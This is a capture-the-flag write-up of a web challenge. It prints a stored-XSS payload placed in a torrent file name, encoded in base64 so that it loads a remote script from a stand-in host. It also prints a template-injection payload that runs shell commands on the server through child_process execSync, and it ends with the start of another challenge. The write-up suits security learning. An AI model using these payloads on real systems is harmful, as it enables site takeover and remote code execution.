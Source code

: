 Noticed that the status is changing from "pending" to "rejected". Also in the challenge description. Maybe Tom is a headless browser. Maybe the name of the torrent is not validated.

Spined up a qbittorrent web ui on a VPS.

```bash
touch 'test<s>'
transmission-create -o bit.torrent -t 'udp://tracker.openbittorrent.com:80' 'test<s>'
qbittorrent-nox bit.torrent
```

Then get the Magnet Link from the WebUI. Input it. There is an XSS Vulnerability.

So because I couldn't use `/` in filenames, I used an `<img src=x onerror="">` with `eval` from a base64 code which appends a script to my server. So I can modify the script's content without changing the torrent file. And just resend one torrent file. I could do that by deleting the cookie and resend the file.

Final payload was

```
<img src="x" onerror="eval(atob('dmFyIHNjcmlwdD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTsKc2NyaXB0LnNyYyAgPSIvL2V4YW1wbGUuY29tL3NjcmlwdC5qcz9fPSIgKyBEYXRlLm5vdygpOwpkb2N1bWVudC5oZWFkLmFwcGVuZENoaWxkKHNjcmlwdCk7'));">
```

tried cookies. tried to exfil the page

```html
<a class="btn btn-sm btn-block btn-danger" id="hook-reject" href="/tomtheawesomejudge?action=rejected:+too+boring&amp;hash=593ba332b4b1df9856ba181ff1fb94f7401d27d0">reject</a>
<a class="btn btn-sm btn-block btn-success" id="hook-approve" href="/tomtheawesomejudge?action=approved&amp;hash=593ba332b4b1df9856ba181ff1fb94f7401d27d0">approve</a>
```

Looks like the url was accessible to the public. And would work as long as the hash is of a present torrent.

Fuzzed a bit. Realized that it shows error on `"`. Tried some things, mostly SQL Injection and SSTI. Worked on `a"+30+"a`. Tried some more things, figured it's NodeJS. `require("subprocess")` wasn't working. Tried `(new Error()).stack`. ExpressJS with ejs.

Then I tried looking for vm escapes. I didn't go far and got to the following payload

```
a"%2b((global.process.mainModule.constructor._load("child_process").execSync("cat+flag.js").toString()))%2b"b
```

Which worked.


online-album (294p): Web
=================

```
This guy thinks he has the perfect album. Everything is so messy. Routes, encodings, default files... everything! Go and take his flag.
Target: https://online-album.dctfq19.def.camp
Author: Lucian
```

I noticed the debug on `/album/alien`
